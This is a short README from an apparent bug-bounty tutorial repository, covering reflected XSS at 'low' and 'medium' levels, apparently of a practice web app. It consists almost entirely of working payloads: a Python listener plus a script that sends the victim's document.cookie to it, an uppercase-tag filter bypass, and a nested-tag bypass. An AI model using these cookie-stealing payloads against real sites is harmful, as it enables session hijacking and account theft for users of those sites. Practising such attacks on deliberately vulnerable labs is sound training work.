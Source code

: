 # bug-bounty-tutorial
bug bounty tutorial

## 17.XSS-(Reflected)

### low
```
python3 -m http.server 1337
<script>window.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
```

### medium 
```
<SCRIPT>window.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
<scr<script>ipt>alert('hacked')</script>
```

